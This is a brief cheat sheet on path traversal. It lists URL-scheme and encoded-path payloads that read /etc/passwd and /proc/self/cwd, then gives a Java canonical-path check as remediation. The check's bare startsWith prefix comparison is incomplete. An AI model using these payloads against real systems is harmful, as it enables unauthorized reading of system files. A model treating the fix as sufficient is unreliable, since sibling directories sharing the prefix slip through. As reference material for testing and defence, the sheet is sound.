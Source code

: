 Path Traversal
==============


## Schemas to read files

```
file:///etc/passwd
netdoc:///etc/passwd (Java)
jar:///etc/passwd
dict:///etc/passwd
gopher:///etc/passwd
ldap:///etc/passwd
```


## Fake current working directory

This is a symbolic link to the current working directory of the process:

```
file:///proc/self/cwd/
```


## Path Traversal on HTTP path

```http
https://{HOST}/..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cetc/passwd
```


## Remediation

### Java

Before using the `path` and `filename` variables from the user inputs, the application
has to verify the targeted file belongs in the correct directory `DIRECTORY_BASE_PATH`:

```java
// the use controls `path` and `filename`, so he can set the path to something bad
File file = new File(DIRECTORY_BASE_PATH, path + filename);

// we check if the canonical path on the disk match the `DIRECTORY_BASE_PATH`
if (file.getCanonicalPath().startsWith(DIRECTORY_BASE_PATH)) {
    // The file is in the correct directory, we can process it!
}
```
